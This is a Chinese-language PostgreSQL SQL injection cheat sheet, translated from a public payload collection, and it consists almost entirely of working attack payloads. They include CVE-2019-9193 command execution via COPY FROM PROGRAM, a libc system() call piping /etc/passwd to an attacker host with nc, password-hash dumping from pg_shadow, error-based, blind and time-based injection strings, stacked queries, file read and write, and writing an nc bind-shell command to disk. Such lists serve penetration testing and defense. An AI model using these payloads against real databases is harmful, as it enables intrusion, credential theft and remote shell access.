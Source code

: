 # postgresql

## PostgreSQL 命令执行

### CVE-2019–9193

```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

## 使用 libc.so.6

```
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```

## PostgreSQL 注释

```
--
/**/
```

## PostgreSQL 链注入点符号

```
; #用于终止 SQL 命令。在语句中唯一可使用的位置是在字符串常量或引用标识符中。
|| #或语句

# 使用示例: 
/?whatever=1;(select 1 from pg_sleep(5))
/?whatever=1||(select 1 from pg_sleep(5))
```

## PostgreSQL 版本

```
SELECT version()
```

## PostgreSQL 当前用户

```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

## PostgreSQL 用户列表

```
SELECT usename FROM pg_user
```

## PostgreSQL 密码哈希列表

```
SELECT usename, passwd FROM pg_shadow 
```

## 查询数据库管理员账户列表

```
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```

## PostgreSQL 权限列表

```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```

## 查询当前用户是否为超级用户

```
SHOW is_superuser; 
SELECT current_setting('is_superuser');
SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;
```

## PostgreSQL 数据库名称

```
SELECT current_database()
```

## PostgreSQL 数据库列表

```
SELECT datname FROM pg_database
```

## PostgreSQL 表格列表

```
SELECT table_name FROM information_schema.tables
```

## PostgreSQL 列表列

```
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

## PostgreSQL 报错注入

```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

## PostgreSQL XML 帮助器

```
select query_to_xml('select * from pg_user',true,true,''); -- 返回所有结果作为单个 xml 行
select database_to_xml(true,true,''); -- 将当前数据库转储为 XML
select database_to_xmlschema(true,true,''); -- 将当前数据库转储为 XML 架构
```

## PostgreSQL 盲注

```
' and substr(version(),1,10) = 'PostgreSQL' and '1' -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1' -> KO
```

## PostgreSQL 时间盲注

```
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))

select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1

AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL 堆叠查询

```
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

## PostgreSQL 文件读取

```
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

## PostgreSQL 文件写入

```
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

## 绕过过滤器

引号

使用 CHR

```
SELECT CHR(65)||CHR(66)||CHR(67);
```

使用 $ 符号（适用于 PostgreSQL 8及以上版本）

```
SELECT $$This is a string$$
SELECT $TAG$This is another string$TAG$
```

> 注：大部分内容翻译至：[https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)